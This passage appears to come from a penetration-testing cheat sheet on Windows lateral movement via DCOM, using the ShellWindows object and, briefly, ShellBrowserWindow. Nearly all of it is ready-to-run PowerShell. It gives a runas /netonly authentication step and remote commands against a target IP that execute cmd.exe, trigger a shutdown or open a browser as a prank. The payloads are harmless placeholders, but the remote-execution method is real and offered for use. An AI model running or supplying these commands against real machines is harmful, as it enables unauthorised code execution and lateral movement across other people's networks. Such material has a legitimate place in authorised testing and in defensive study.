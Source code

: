 Successful auth over RPC is required; however, regardless of privilege the code will execute as a child of the explore.exe process with limited privileges. No scaping memory directly with this method.. :(

**Port:** 135/TCP (RPC), plus one high-random TCP (DCOM)

**Tools:** native .NET calls on Windows

\
When invoking .NET calls in this fashion, the existing auth token is used. Great for lateral movement from a compromised system, but not if you are remotely accessing a target machine with recovered credentials. The simplest method we have found is to create a new PS Session with runas.

**Example auth:**

```
PS> runas /netonly /user:TESTLAB\josh "powershell.exe"
```

\
**Example code execution:**

```
PS> $com = [Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.112.200")
PS> $obj = [System.Activator]::CreateInstance($com)
PS> $item = $obj.Item()
PS> $item.Document.Application.ShellExecute("cmd.exe","/c calc.exe","c:\windows\system32",$null,0)
```

\
**Example: call shutdown routine (user prompted for confirmation):**

```
PS> $com = [Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.112.200")
PS> $obj = [System.Activator]::CreateInstance($com)
PS> $item = $obj.Item()
PS> $item.Document.Application.ShutDownWindows()
```

\
**Example troll: launch IE with Sloths in Space (10 hours):**

```
PS> $com = [Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.112.200")
PS> $obj = [System.Activator]::CreateInstance($com)
PS> $item = $obj.Item()
PS> $item.Document.Application.ShellExecute("iexplore.exe","https://www.youtube.com/watch?v=AaxQhNBBSkM","C:\Program Files\Internet Explorer",$null,"1")
```

### ShellBrowserWindow Object

Functionally the same as the previous method, the ShellBrowserWindow object can be leverage for remote code execution over DCOM

**Port:** 135/TCP (RPC), plus one high-random TCP (DCOM)

**Tools:** native .NET calls on Windows
